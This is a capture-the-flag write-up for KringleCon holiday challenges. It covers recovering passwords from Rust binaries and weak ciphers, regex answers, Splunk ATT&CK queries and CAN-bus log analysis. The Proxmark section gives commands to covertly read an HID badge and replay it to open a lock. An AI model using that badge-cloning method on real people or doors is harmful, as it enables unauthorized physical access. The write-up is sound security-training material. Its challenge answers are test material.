  <h2 id="t05a">Terminal 5a: Speaker UNPrep</h2>

  <h3>I) Open the door</h3>
  <div class="quote">
    <div class="name">Bushy Evergreen:</div>
    Ohai! Bushy Evergreen, just trying to get this door open. It's running 
    some Rust code written by Alabaster Snowball. I'm pretty sure the 
    password I need for ./door is right in the executable itself. Isn't 
    there a way to view the human-readable strings in a binary file? 
  </div>
  <div class="hint">
    The strings command is common in Linux and available in Windows 
    as part of SysInternals.
  </div>
  <p></p>
  
  <p>
    The command <code>strings door</code> lists all printable strings 
    of length &ge; 4 in the binary <code>./door</code>, which is quite 
    overwhelming. Some filtering is required, and a good first step is 
    to check message length strings. So, let's limit output to length &ge; 30, and add
    the option <code>-t x</code> to print the hex offset of the found strings.
    This turns out to be enough:
  </p>
  <pre>
~ $ <span>strings -30 -t x door</span>
      e54 _Unwind_GetLanguageSpecificData
    2c040 6666666666666666\\\\\\\\\\\\\\\\
    2c210              at 0123456789abcdef
    2c260 connection resetentity not foundalready borrowed$
    2ca1c /home/elf/doorYou look at the screen. It wants a password. You roll your eyes - the 
    2ca71 password is probably stored right in the binary. There's gotta be a
    2cb20 NulErrorBox<Any>thread 'expected, found Door opened!
    2cb55 That would have opened the door!
    2cb76 Be sure to finish the challenge in prod: And don't forget, the <mark>password</mark> is "<mark class="answer">Op3nTheD00r</mark>"
    2cbea src/liballoc/raw_vec.rscapacity overflowa formatting trait implementation returned
          an error/usr/src/rustc-1.41.1/src/libcore/fmt/mod.rsstack backtrace:
    ... </pre>
  <p>
    As Bushy thought, the password is written 
    unencrypted in the executable. Running the executable end entering
    this password opens the door and pleases Bushy, but he soon wants more ...  
  </p>

  <h3>II) Switch on the lights</h3>
  <div class="quote">
    <div class="name">Bushy Evergreen:</div>
    That's it! What a great password... Oh, this might be a good 
    time to mention another lock in the castle. Santa asked me to 
    ask you to evaluate the security of our new HID lock. If ever 
    you find yourself in posession of a Proxmark3, click it in 
    your badge to interact with it. It's a slick device that can 
    read others' badges! Hey, you want to help me figure out the 
    light switch too? Those come in handy sometimes. The password 
    we need is in the lights.conf file, but it seems to be encrypted. 
    There's another instance of the program and configuration in 
    ~/lab/ you can play around with. What if we set the user name 
    to an encrypted value? 
  </div>
  <div class="hint">
    While you have to use the lights program in /home/elf/ to turn the lights on, 
    you can delete parts in /home/elf/lab/.
  </div>
  <p></p>
  
  <p>
    The <code>./lights</code> executable is a bit more secure, using <code>strings</code>
    brings no insights here. The configuration file <code>lights.conf</code> with 
    the encrypted password
  </p>
  <pre>
password: E$ed633d885dcb9b2f3f0118361de4d57752712c27c5316a95d9e5e5b124
name: elf-technician</pre>
  <p>
    gives no immediate enlightenment. The strange log message which interrupted the
    output is interesting, but hard to understand. One possible interpretation is
    that fields in <code>lights.conf</code> are selected for decryption based on 
    a check testing for decryptability. Because "fields" is used in the plural,
    this would imply that also the name field is decrypted if that is possible.
    We have to modify the configuration file in order to test, and this can 
    only be done in the <b>lab</b> folder, where <code>lab/lights.conf</code> is not 
    write protected and can be experimented with. Trying a plaintext password
  </p>
  <pre>
password: <mark>OpenSesame</mark>
name: BigBadBear</pre>
  <p>
    and running <code>lab/lights</code> welcomes BigBadBear back. The password 
    OpenSesame works, switching on the lights ... in the lab simulation. The 
    real executable is not so easy to trick, because <code>lights.conf</code> cannot be 
    modified. However, we can turn the tables and use the name field in 
    the lab to decrypt for us, as Bushy suggests.
    Running <code>lab/lights</code> on 
  </p>
  <pre>
password: OpenSesame
name: <mark>E$ed633d885dcb9b2f3f0118361de4d57752712c27c5316a95d9e5e5b124</mark></pre>
  <p>
    produces the output <code>The terminal just blinks: Welcome back, 
    <mark class="answer">Computer-TurnLightsOn</mark></code>. We now know the password,
    and the lights can be turned back on for real.
  </p>
  
  <h3>III) Turn on the vending machine</h3>
  <div class="quote">
    <div class="name">Bushy Evergreen:</div>
    Wow - that worked? I mean, it worked! Hooray for opportunistic decryption, 
    I guess! Oh, did I mention that the Proxmark can simulate badges? Cool, 
    huh? There are lots of references online to help. In fact, there's a talk 
    going on right now! So hey, if you want, there's one more challenge. You 
    see, there's a vending machine in there that the speakers like to use 
    sometimes. Play around with ./vending_machines in the lab folder. You know 
    what might be worth trying? Delete or rename the config file and run it. 
    Then you could set the password yourself to AAAAAAAA or BBBBBBBB. If the 
    encryption is simple code book or rotation ciphers, you'll be able to roll 
    back the original password.
  </div>
  <div class="hint">
    For polyalphabetic ciphers, if you have control over inputs and visibilty of outputs, 
    lookup tables can save the day.
  </div>
  <p></p>
  
  <p>
    Opportunistic decryption, indeed! The <code>./vending-machines</code> executable again 
    uses a configuration file <code>vending-machines.json</code> to store username
    and password:
  </p>
  <pre class="prettyprint lang-json">
{
  "name": "elf-maintenance",
  "password": "LVEdQPpBwr"
}</pre>
  <p>
    In the lab folder, where there is no edit protection, we can follow 
    the suggestion to delete the configuration file before running the code. 
    It simply asks for new credentials:
  </p>
  
  <p>
    The simulated vending machine is running, but this does not impress the 
    real one. The configuration file has reappeared and shows the encryption 
    of our password "abcd": a chosen plaintext attack is possible!
  </p>
  <pre class="prettyprint lang-json">
{
  "name": "Kumaus",
  "password": "<mark>9Ued</mark>"
}</pre>
  <p>
    Experimentation shows that the encryption preserves the number of characters, 
    and feeding it a sequence of identical characters as plaintext reveals periodic 
    behaviour with period 8: <br>
    <code>AAAAAAAAAAAAAAA</code> &xrarr; <code><mark>XiGRehmw</mark>XiGRehm</code>.<br>
    All indications point to a <b>polyalphabetic substitution cipher</b>, using 8 different 
    encryption alphabets depending on position. Additional 
    experiments show that lowercase letters, uppercase letters and numerals 
    are substituted, all other characters are left alone. To crack the cipher, 
    we require a lookup table covering each substituted character in all 8 positions, 
    a total of 496 entries. We generate one by submitting a 496 character password:
  </p>
  <pre>
<span>pwd</span>: aaaaaaaabbbbbbbbcccccccc ... XXXXXXXXYYYYYYYYZZZZZZZZ0000000011111111 ... 8888888899999999
<span>enc</span>: 9VbtacpgGUVBfWhPe9ee6EER ... 0PHMxOl0rQKqjDq2KtqoNicv3ehm9ZFH2rDO5LkI ... VXmFSQw4lCgPE6x7</pre>
  <p>
    which was generated with the python one-liner
  </p>
  <pre class="prettyprint lang-python">
''.join([c*8 for c in string.ascii_letters + string.digits])</pre>
  <p>
    The full lookup table can be found <a href="src/t_05a/lookup_table.txt">here</a>.
    Decryption could be done by hand, but that is rather painful. Python to the rescue:
    <a href="src/t_05a/vending_decoder.py">vending_decoder.py</a>
  </p>
  <pre class="prettyprint lang-python">
with open("lookup_table.txt", 'r') as fh:
  alphabet = fh.readline().strip()
  key = fh.readline().strip()

password_ct = "LVEdQPpBwr"
password = ""
for n in range(len(password_ct)):
    positional_alphabet = key[n%8::8]
    index = positional_alphabet.index(password_ct[n])
    password += alphabet[8 * index + n%8]
print(password)</pre>
  <p>
    The password <mark class="answer">CandyCane1</mark> finally 
    satisfies greedy Bushy and restarts Release the Snacken, which spits out  
    <b>portal candies</b> for the Santavator after some rumbling and grumbling.
    I can also highly recommend the box of weasels, a reknown elvish delicacy.
  </p>


  <h2 id="t05b">Terminal 5b: 33 Gkbps</h2>
  <div class="terminal">
    
  </div>
  <div class="quote">
    <div class="name">Fitzy Shortstack:</div>
    "Put it in the cloud," they said... "It'll be great," they said... All the 
    lights on the Christmas trees throughout the castle are controlled through 
    a remote server. We can shuffle the colors of the lights by connecting via 
    dial-up, but our only modem is broken! Fortunately, I speak dial-up. However, 
    I can't quite remember the handshake sequence. Maybe you can help me out? 
    The phone number is 756-8347; you can use this blue phone.
  </div>
  <div class="hint">
    &xrarr;
    <a href="https://upload.wikimedia.org/wikipedia/commons/3/33/Dial_up_modem_noises.ogg">Modem noises</a>
  </div>
  <p>
    Fun! Fitzy certainly is a rather special elf. Because I am not quite as fluent
    in dial-up (gah, tones of my nightmares ...), it took a bit of fiddling until
    Fitzies tones and those from the modem noise example were matched:
  </p>
  <pre>
<span>Phone/Modem       Fitzy Shortstack</span>
                  Pick up handset
&lt;dial tone&gt;       7568347
&lt;modem tone&gt;      baa DEE brrr
&lt;modem tones&gt;     aaah 
                  WEWEWwrwrrwrr
&lt;modem tones&gt;     beDURRdunditty
                  SCHHRRHHRTHRTR </pre>
  <p>
    A message now states "Your lights have been updated". The lights can be 
    shuffeled again, the potentially cataclysmic disaster of boring static 
    lights has been averted, Fitzy is happy and we get a hint for objective 5.
  </p>

  <h2 id="o05">Objective 5: </h2>

  <div class="terminal">
    
  </div>
  <div class="objective">
    Difficulty: 2<br>
    Open the HID lock in the Workshop. Talk to Bushy Evergreen near the talk tracks 
    for hints on this challenge. You may also visit Fitzy Shortstack in the kitchen 
    for tips.
  </div>
  <p></p>
  <div class="quote">
    <div class="name">Bushy Evergreen:</div>
    Good luck navigating the rest of the castle. And that Proxmark thing? 
    Some people scan other people's badges and try those codes at locked doors. 
    Other people scan one or two and just try to vary room numbers. Do whatever 
    works best for you!
    <div class="name">Fitzy Shortstack:</div>
    탢ݵרOُ񆨶$Ԩ؉楌Բ ahem! We did it! Thank you!!
    Anytime you feel like changing the color scheme up, just pick up the phone!
    You know, Santa really seems to trust Shinny Upatree...
  </div>
  <div class="hint">
    &xrarr;
    <div>
      The Proxmark is a multi-function RFID device, capable of capturing and 
      replaying RFID events.
    </div>
  </div>
  <div class="hint">
    &xrarr;
    <div>
      You can use a Proxmark to capture the facility code and ID value of HID 
      ProxCard badge by running lf hid read when you are close enough to someone 
      with a badge.
    </div>
  </div>
  <div class="hint">
    &xrarr;
    <div>
      You can also use a Proxmark to impersonate a badge to unlock a door, 
      if the badge you impersonate has access. lf hid sim -r 2006......
    </div>
  </div>
  <div class="hint">
    &xrarr;
    <div>
      <a href="https://www.youtube.com/watch?v=647U85Phxgo">Larry Pesce</a>
      knows a thing or two about HID attacks. He's the author of a 
      course on wireless hacking!
    </div>
  </div>
  <div class="hint">
    &xrarr;
    <div>
      There's a short list of essential 
      <a href="https://gist.github.com/joswr1ght/efdb669d2f3feb018a22650ddc01f5f2">Proxmark commands</a>
   </div>
  </div>

  <p>
    This introduction to Proxmark3 and the incredible weakness of non-reinforced door 
    cards was excellent! Once all available hints were collected and the background
    was digested, the remaining tasks were quickly done. We are trying to jemmy a
    card-controlled door lock in the workshop, and the easiest way to do this would 
    be to find an authorized card, to scan it secretly using the Proxmark from a distance 
    and to replay the scan near the door. The Proxmark terminal can be opened by accessing 
    the Proxmark item (found on the wrapping room floor next to the table) in the Kringlecon 
    badge item list.
  </p>
  <p>
    Scanning the neighbourhood for cards is initiated by the command <code>lf hid read</code>,
    but Santa and most elves don't seem to have scannable cards. Luckily Fitzy Shortstack
    hinted that Shinny Upatree in front of the castle is Santa's Most Trusted. Sneaking up 
    on her from behind (have to do these things right) and scanning the area finds a card: 
  </p>
  <pre>
[magicdust] pm3 --> <span>lf hid read</span>
#db# TAG ID: <mark>2006e22f13</mark> (6025) - Format Len: 26 bit - FC: <mark>113</mark> - Card: <mark>6025</mark></pre>
  <p>
    After a quick dash back to the workshop, replaying the Wiegand code of Shinny's card
    unlocks the door:
  </p>
  <pre>
[magicdust] pm3 --> <span>lf hid sim -r 2006e22f13</span>
[=] Simulating HID tag using raw 2006e22f13
[=] Stopping simulation after 10 seconds.

[=] Done</pre>
  <p>
    This completes the objective, but we cannot leave without checking what is behind the door. 
    We are swallowed by a completely dark room with an invisible maze, luckily without any 
    hungry grues. After navigating this 
    maze, two eye shaped openings appear on the other side of the room. Now where have 
    I <a href="http://www.counterhack.net/Counter_Hack/Office_Tour_Part_8.html">seen that before</a>?
  </p>
  <p>
    Getting close to those eyes leads to a John Albert Santovich experience: 
  </p>
  
  <p>
    I just became Santa!! Now this is fun! Luckily for Santa, I am neither Jack Frost 
    nor a disenchanted puppeteer. One can return to one's own body by walking back through 
    the painting, but let's remain in Santas shoes for a while. The elves react differently,
    Santas office is now accessible through the Santavator, and all remaining objectives 
    except 10 can only be done while being Santa. Ho ho mwHOHOhohoho.
  </p>


  
  <h2 id="t06">Terminal 6: Regex Toy Sorting</h2>
  <div class="terminal">
    
    
  </div>
  <div class="quote">
    <div class="name">Noel Boetie (as Santa):</div>
    Hey there, KringleCon attendee! I'm Minty Candycane! I'm working 
    on fixing the Present Sort-O-Matic. The Sort-O-Matic uses JavaScript 
    regular expressions to sort presents apart from misfit toys, but 
    it's not working right. With some tools, regexes need / at the 
    beginning and the ends, but they aren't used here. You can find 
    a regular expression cheat sheet here if you need it. You can use 
    this regex interpreter to test your regex against the required 
    Sort-O-Matic patterns. Do you think you can help me fix it?
  </div>
  <div class="hint">
    &xrarr;
    <div>
      Handy 
      <a href="https://www.debuggex.com/cheatsheet/regex/javascript">quick reference</a>
      for JS regular expression construction.
    </div>
  </div>
  <div class="hint">
    &xrarr;
    <div>
      Here's a place to <a href="https://regex101.com/">try out</a>
      your JS Regex expressions. 
    </div>
  </div>
  <p>
    Training Regx on a toy sorting machine ... whatever you say, Santa. 
    Help is available at all times, both for the terminal (click help button)
    and for each question (click text above mask).
  </p>
  
  <p>Time for some RegEx kung-fu.</p>
  <ol>
    <li>
      Create a regular expression that will only match any string 
      containing at least one digit.
      <div class="answer">
        \d+
      </div>
    </li>
    <li>
      Create a regular expression that will only match only alpha 
      characters A-Z of at least 3 characters in length or greater 
      while ignoring case.
      <div class="answer">
        [a-zA-Z]{3,}
      </div>
    </li>
    <li>
      Create a Regex That Matches Two Consecutive Lowercase a-z or numeric characters.
      Create a regular expression that will only match at least two consecutive lowercase a-z 
      or numeric characters.
      <div class="answer">
        [a-z\d]{2}
      </div>
    </li>
    <li>
      Create a regular expression that will only match any two characters that are NOT 
      uppercase A through L and NOT numbers 1 through 5.
      <div class="answer">
        [^A-L1-5]{2}
      </div>
    </li>
    <li>
      Create a regular expression that only matches if the entire string is composed of 
      entirely digits and is at least 3 characters in length.
      <div class="answer">
        ^\d{3,}$
      </div>
    </li>
    <li>
      Create a regular expression that only matches if the entire string is a 
      valid Hour, Minute and Seconds time format similar to the following:
      <pre>12:24:53, 1:05:24, 23:02:43, 08:04:10</pre>
      However, the following would be invalid:
      <pre>25:30:86, A1:E4:B5, B2:13:4A, 32:24:53, 08:74:53, 12:5:24</pre>
      Use anchors or boundary markers to avoid matching other surrounding strings.
      <div class="answer">
        ^([01]?[0-9]|2[0-3]):[0-5][0-8]:[0-5][0-8]$
      </div>
    </li>
    <li>
      Create a regular expression that only matches if the entire string is a MAC address, 
      ignoring case. For example:
      <pre>00:0a:95:9d:68:16, 76:A4:5A:D2:69:93, B8:13:13:D1:18:EC, 95:ce:00:4a:22:df</pre>
      However, the following would be examples of invalid MAC Addresses:
      <pre>97:z2:gf:c4:02:c2, de:140:130:69:7_-bd, C0:HH:EE:50:B7:C3</pre>
      Use anchors or boundary markers to avoid matching other surrounding strings.
      <div class="answer">
        ^([0-9a-fA-F]{2}:){5}[0-9a-fA-F]{2}$
      </div>
    </li>
    <li>
      Create a regular expression that only matches one of the three following day, month, and four digit year formats:
      <pre>10/01/1978, 01.10.1987, 14-12-1991</pre>
      However, the following values would be invalid formats:
      <pre>05/25/89, 12-32-1989, 01.1.1989, 1/1/1</pre>
      Use anchors or boundary markers to avoid matching other surrounding strings.
      <div class="answer">
        ^(0[1-9]|[12][0-9]|3[01])[/.-](0[1-9]|1[0-2])[/.-]\d{4}$
      </div>
    </li>
  </ol>


  <h2 id="o06">Objective 6: Splunk Challenge</h2>
  <div class="objective">
    Difficulty: 3<br>
    Access the Splunk terminal in the Great Room. What is the name of the 
    adversary group that Santa feared would attack KringleCon?
  </div>
  <p></p>
  <div class="quote">
    <div class="name">Minty Candycane:</div>
    Hey, have you tried the Splunk challenge? 
    Are you newer to SOC operations? Maybe check out his intro talk from last year. 
    Dave Herrald is doing a great talk on tracking adversary emulation through 
    Splunk! Don't forget about useful tools including Cyber Chef for decoding 
    and decrypting data! It's down in the Great Room, but oh, they probably 
    won't let an attendee operate it.
  </div>
  <div class="hint">
    &xrarr;
    <div>
      There was a great 
      <a href="https://www.youtube.com/watch?v=qbIhHhRKQCw">Splunk talk</a>
      at KringleCon 2 that's still available!
    </div>
  </div>
  <div class="hint">
    &xrarr;
    <div>
      Dave Herrald talks about  
      <a href="https://www.youtube.com/watch?v=RxVgEFt08kU">emulating advanced adversaries</a>
      and hunting them with Splunk. 
    </div>
  </div>
  <div class="hint">
    &xrarr;
    <div>
      Great tool for all sorts of coding and decoding: 
      <a href="https://gchq.github.io/CyberChef/">CyberChef</a>
    </div>
  </div>
  <p></p>
  
  <p>
    This years <a href="https://splunk.kringlecastle.com/en-US/app/SA-kringleconsoc/kringleconsoc">Splunk challenge</a>
    has a <a href="img/o_06/splunk_window.png">very pleasing interface</a> and
    revolves around adversary emulation, which makes the talk by Dave Herrald 
    required reading. Attacks are emulated in the 
    <a href="https://www.splunk.com/en_us/blog/security/splunk-s-attack-range-provides-a-simple-framework-for-generating-attack-data.html">Splunk Attack Range</a>
    framework, and their analysis requires three components:
    <ol>
      <li>
        The <a href="https://attack.mitre.org/">MITRE ATT&CK</a> knowledge base, 
        which categorizes attacks into <b>tactics</b> (why?) and <b>techniques</b> (how?).
        Each attack technique and its variations (subtechniques) is uniquely identified 
        and described in great detail. 
      </li>
      <li>
        The <a href="https://github.com/redcanaryco/atomic-red-team">Atomic Red Team</a>
        project by red canary is a collection of small, portable tests on github 
        mapped to the corresponding techniques in MITRE ATT&CK. It provides code to 
        actually execute the attacks described in Mitre.
      </li>
      <li>
        In <a href="https://splunk.kringlecastle.com/en-US/app/SA-kringleconsoc/search">Splunk</a>
        the progression of emulated attacks is recorded and stored. The attacks are 
        categorized by index corresponding to the Mitre ID of the technique. For example,
        a search for <b>index=t1547*</b> will find all events related to Mitre ID T1547
        and its subtechniques.
      </li>
    </ol>
  </p>
  <div class="quote">
    <div class="name">Alice:</div>
    Ok elves! Like Santa said, I simulated a bunch of ATT&CK techniques/sub-techniques 
    and stored the results from each run in its own dedicated set of Splunk indexes. 
    Check out the Splunk Search Interface to get started answering Training Question 1. 
  </div>
  <p>
    Normally, eager young elves learn the ropes in the attack ranges. This time, however, 
    there is a special guest. Santa "has not been feeling himself lately" (ho ho ho) and 
    is therefore participating in the challenge, getting tips from Alice.
  </p>

  <h4>
    Question 1:<br> 
    <em>
      How many distinct MITRE ATT&CK techniques did Alice emulate?
    </em>
  </h4>
  <p>
    According to Alice, every simulation is stored within its own index. A good first 
    try is therefore the following query, which counts all indexed events categorized 
    by index, resulting in 26 different categories:
  </p>
  <div class="splunk">
    | tstats count where index=* by index
  </div>
  <pre>
    1   attack          68
    2   t1033-main      3311
    3   t1033-win       21734
    4   t1057-win       18006
    5   t1059.003-main  1984
    ...</pre>
  <p>
    This is not quite what we want, because the index name also includes sub-technique 
    and main/win selection. This causes duplicates, we just require the main technique,
    identified by a 4 digit Mitre id. To filter those duplicates, lets create a new field 
    'technique' consisting of the first 5 characters of the index:
  </p>
  <div class="splunk">
    index=t* | eval technique = substr(index, 0, 5) | stats count by technique
  </div>
  <pre>
    1   t1033  25045
    2   t1057  18006
    3   t1059  41113
    4   t1071  23513
    5   t1082  18136
    6   t1105  17362
    7   t1106  20331
    8   t1123  24769
    9   t1204  21375
    10  t1547  21323
    11  t1548  28517
    12  t1559  24468
    13  t1566  19688  </pre>
   <p>
The answer: there are <mark class="answer">13</mark> distinct techniques covered.
  </p>

  <h4>
    Question 2:<br> 
    <em>
      What are the names of the two indexes that contain the results 
      of emulating Enterprise ATT&CK technique 1059.003? (Put them in 
      alphabetical order and separate them with a space)
    </em>
  </h4>
  <p>
    The query is similar to question 1 query, restricted to a single technique 
    and sub-technique:
  </p>
  <div class="splunk">
    | tstats count where index=T1059.003* by index
  </div>
  <pre>
    1   t1059.003-main  1984
    2   t1059.003-win   18519 </pre>
  <p>
    with answer string <mark class="answer">t1059.003-main t1059.003-win</mark>
  </p>
  
  <h4>
    Question 3:<br> 
    <em>
      One technique that Santa had us simulate deals with 'system 
      information discovery'. What is the full name of the registry 
      key that is queried to determine the MachineGuid?
    </em>
  </h4>
  <p>
    The MITRE ATT&CK site holds the categorisation of the different 
    attacks into tactics and techniques. In the enterprise matrix,
    a technique 'system information discovery' can be found under 
    the tactic header 'discovery' with 
    <a href="https://attack.mitre.org/techniques/T1082/">ID T1082</a>: 
    one of Alice's chosen techniques (see question 1). Implementation 
    details of this technique are collected under the same ID in the
    <a href="https://github.com/redcanaryco/atomic-red-team/tree/master/atomics">atomics folder</a>   
    at Atomic Red Team, in 
    <a href="https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1082/T1082.md">T1082.md</a>.
    Test #8 is about <b>Windows MachineGUID Discovery</b> and queries 
    the registry key <mark class="answer">HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography</mark>,
    which answers question 3.
  </p>

  <h4>
    Question 4:<br> 
    <em>
      According to events recorded by the Splunk Attack Range, when 
      was the first OSTAP related atomic test executed? (Please provide 
      the alphanumeric UTC timestamp.)
    </em>
  </h4>
  <p>
    OSTAP is a javascript downloader (dropper) employed to get secondary 
    malware into a system. Alice gives a big hint, pointing out that 
    Splunk attack range keeps track of the simulations that are run in 
    an index called <b>attack</b>. The search
  </p>
  <div class="splunk">
    index=attack ostap | sort _time
  </div>
  <p>
    finds 5 occurences of the keyword OSTAP in the attack index and sorts 
    them by time. The UTC timestamp can be extracted by selecting 
    <mark>Execution Time _UTC</mark> from the list of selected fields 
    left of the search results. 
  </p>
  
  <p>
    The answer is the first entry, <mark class="answer">2020-11-30T17:44:15Z</mark>
  </p>

  <h4>
    Question 5:<br> 
    <em>
      One Atomic Red Team test executed by the Attack Range makes 
      use of an open source package authored by frgnca on GitHub. 
      According to Sysmon (Event Code 1) events in Splunk, what was 
      the ProcessId associated with the first use of this component?
    </em>
  </h4>
  <p>
    The hints become sparse now: Alice just talks of "some pivoting".
    Quite some ballet class this is ... The first step is to identify
    the open source package. On <a href="https://github.com/frgnca">frgnca's github page</a>
    the list of repositories shows one likely candidate, <b>AudioDeviceCmdlets</b>,
    a suite of PowerShell commandlets to control audio devices on Windows.
  </p>
  <p>
    The first pivot leads to the Atomic Red Team site, where a keyword
    search of the repository for "AudioDeviceCmdlets" identifies
    the <b>Audio Capture</b> technique
    <a href="https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1123/T1123.md">T1123</a>.
    This is indeed one of the techniques Alice emulated (question 1).
    It contains one atomic test, which employs a powershell 
    command
  </p>
  <pre>
powershell.exe -Command WindowsAudioDevice-Powershell-Cmdlet</pre>
  <p>
    Time for the second pivot: a keyword search of the T1123 index family in 
    Splunk for this PS command gives 7 hits, and a refinement looking 
    for a process creation Sysmon event (EventID = 1) leaves 2:
  </p>
  <div class="splunk">
    index=t1123* "WindowsAudioDevice-Powershell-Cmdlet" EventID=1
  </div>
  <p>
    Those two events were logged at exactly the same time, so one is 
    probably a subprocess of the other. To clarify, lets show them as table:
  </p>
  <div class="splunk">
    index=t1123* "WindowsAudioDevice-Powershell-Cmdlet" EventID=1 | table _time ProcessId parent_process_id CommandLine
  </div>
  <p>
    This identifies the process with ProcessId <mark class="answer">3648</mark> as
    parent process.
  </p>
  

  <h4>
    Question 6:<br> 
    <em>
      Alice ran a simulation of an attacker abusing Windows registry 
      run keys. This technique leveraged a multi-line batch file 
      that was also used by a few other techniques. What is the 
      final command of this multi-line batch file used as part of this 
      simulation?
    </em>
  </h4>
  <p>
    Searching for the keyword "registry run key" in Atomic-Red-Team brings
    up two techniques, T1112 and T1547.001, but only 
    <a href="https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1547.001/T1547.001.md">T1547.001</a>
    appears in the list of techniques employed by Alice from question 1.
  </p>
  <p>
    At this point it is very easy to get led down a garden path and waste a lot 
    of time. There is an obvious target <code>batstartup.bat</code> which is employed in test #6 
    (Suspicious bat file run from startup Folder), and one can spend a long time chasing 
    it in splunk only to realize
    <ol>
      <li>
        The contents of the bat file are not (as far as I can tell) visible 
        in splunk. One has to go to the origin, Atomic-Red-Team.
      </li>
      <li>
        Once actually found, that bat file turns out to be a one-liner.
      </li>
    </ol>
    A red herring. It pays off being diligent here ... searching the page
    T1547.001.md for ".bat" yields a hidden champion in <b>test #3</b> together with full path:
    <pre>https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/<span>Discovery.bat</span></pre>
    A splunk search verifies that this file appears in 14 different 
    indexes representing all 13 attack techniques emulated by Alice. 
    Checking the <a href="https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat">source</a>
    of Discovery.bat shows 44 lines, the last of which is <mark class="answer">quser</mark>.
  </p>

  <h4>
    Question 7:<br> 
    <em>
      According to x509 certificate events captured by Zeek (formerly Bro), 
      what is the serial number of the TLS certificate assigned to the 
      Windows domain controller in the attack range?
    </em>
  </h4>
  <p>
    Zeek is an open-source network analysis framework, and Alice hints that 
    events captured by Zeek can be found by looking for its old name <b>bro</b>:
  </p>
  <div class="splunk">index=* sourcetype=bro*</div>
  <p>
    As it stands, this catches 30195 events which is less than helpful. Checking 
    the sourcetypes under interesting fields shows 10 distinct values:
  </p>
  
  <p>
    The sourcetype related to X.509 (a standard defining the format of public key certificates)
    is <b>bro:x509:json</b>, and looking for that nets 2722 certificate related events.
  </p>
  <div class="splunk">index=* sourcetype=bro:x509:json</div>
  <p>
    The <b>selected fields</b> list on the left shows that only 12 different certificate
    subjects appear, the most common being the windows domain controller <b>win-dc-748.attackrange.local</b>
  </p>
  
  <p></p>
  <div class="splunk">index=* sourcetype=bro:x509:json "certificate.subject"="CN=win-dc-748.attackrange.local"</div>
  <p>
    Clicking on that to refine the search still gives 1288 events, but only one value for 
    <b>certificate.serial</b>, namely <mark class="answer">55FCEEBB21270D9249E86F4B9DC7AA60</mark>.
  </p>
 
  <h4>
    Challenge question:<br> 
    <em>
      What is the name of the adversary group that Santa feared would 
      attack KringleCon?
    </em>
  </h4>
  <div class="quote">
    <div class="name">Alice Bluebird:</div>
    This last one is encrypted using your favorite phrase! The base64 encoded ciphertext is:
        <code>7FXjP1lyfKbyDK/MChyf36h7</code>.
    It's encrypted with an old algorithm that uses a key. We don't care about RFC 7465 up here! 
    I leave it to the elves to determine which one!
  </div>
  <p>
    The old algorithm must be the stream cipher RC4, because RFC 7465 (from 2015) prohibits its 
    usage in TLS due to its serious security flaws. Despite its flaws, it is still a very hard 
    cipher to break, so Santa needs to jog his memory what his favourite phrase is. According 
    to Bubble Lightington in the courtyard (when spoken to as Santa), this is currently 
    "Stay frosty" (what a surprise). Using <a href="https://gchq.github.io/CyberChef/">Cyberchef</a>  
    to decrypt fails at first, and when asked,
    Alice replies "I can't believe the Splunk folks put it in their talk!". Checking the 
    talk reveals the cause of failure: At the end of the talk, this phrase is shown with 
    different capitalisation: <b>"Stay Frosty"</b>. This works as key, and the decrypted plaintext 
    is  
  </p>
  <div class="answer">The Lollipop Guild</div>
  


  <h2 id="t07">Terminal 7: CAN-bus investigation</h2>
  <div class="terminal">
    
  </div>
  <div class="quote">
    <div class="name">Wunorse Openslae:</div>
    Hiya hiya - I'm Wunorse Openslae! I've been playing a bit with CAN bus. 
    Are you a car hacker? I'd love it if you could take a look at this 
    terminal for me. I'm trying to figure out what the unlock code is in 
    this CAN bus log. When it was grabbing this traffic, I locked, unlocked, 
    and locked the doors one more time. It ought to be a simple matter of 
    just filtering out the noise until we get down to those three actions. 
    Need more of a nudge? Check out Chris Elgee's talk on CAN traffic!
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      <a href="https://www.youtube.com/watch?v=96u-uHRBI0I">Talk</a> by
      Chris Elgee about CAN traffic.
    </div>
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      You can hide lines you don't want to see with commands like <br>
      <code>cat file.txt | grep -v badstuff</code>  
    </div>
  </div>
  <p>
    The <b>CAN bus</b> (as in tin can?) is an in-car data bus over which the different car components 
    communicate. It usually has an accessible port (ODB-II) where a technician 
    can check what is going on. The file <b>candump.log</b> contains the log 
    of some of the traffic on the CAN bus of Santa's sleigh. A lovely image: 
    Santa with his head under the hood of  
    his beloved sleigh, beard grimy with engine oil ... 
  </p>
  <p>
    Well, back to "reality". To see what the log looks like:
  </p>
  <pre>
~$ <span>wc -l candump.log </span>
1369 candump.log
~$ <span>head -n 5 candump.log </span>
(1608926660.800530) vcan0 244#0000000116
(1608926660.812774) vcan0 244#00000001D3
(1608926660.826327) vcan0 244#00000001A6
(1608926660.839338) vcan0 244#00000001A3
(1608926660.852786) vcan0 244#00000001B4</pre>
  <p>
    1369 very similar looking lines, with pattern <code>([timestamp]) vcan0 [CAN ID]#[reading]</code>.
    The CAN ID 0x244 is the most common and probably represents engine readings. 
    Filtering it leaves 38 entries with two IDs:
  </p>
  <pre>
~$ <span>cat candump.log | grep -cv '244#'</span>
38
~$ <span>cat candump.log | grep -v '244#'</span>
(1608926660.970738) vcan0 188#00000000
  ...
(1608926663.989726) vcan0 188#00000000
(1608926664.491259) vcan0 188#00000000
(1608926664.626448) vcan0 <mark>19B</mark>#000000000000
(1608926664.996093) vcan0 188#00000000
  ...
(1608926671.055065) vcan0 188#00000000
(1608926671.122520) vcan0 <mark>19B</mark>#00000F000000
(1608926671.558329) vcan0 188#00000000
  ...
(1608926674.086447) vcan0 188#00000000
(1608926674.092148) vcan0 <mark>19B</mark>#000000000000
(1608926674.589954) vcan0 188#00000000
  ...</pre>
  <p>
    CAN ID 0x188 shows no variation and appears uninteresting, 
    which leaves 0x19B for the door events. The sequence was LOCK, UNLOCK, LOCK
    and so the desired entry is the middle one, with timestamp 
    1608926671.<mark class="answer">122520</mark>. Submitting the 
    decimal part to <code>./runtoanswer</code> completes the investigation
    and prompts Wunorse for some hints on the much more serious issue 
    of the CAN-D bus.
  </p>


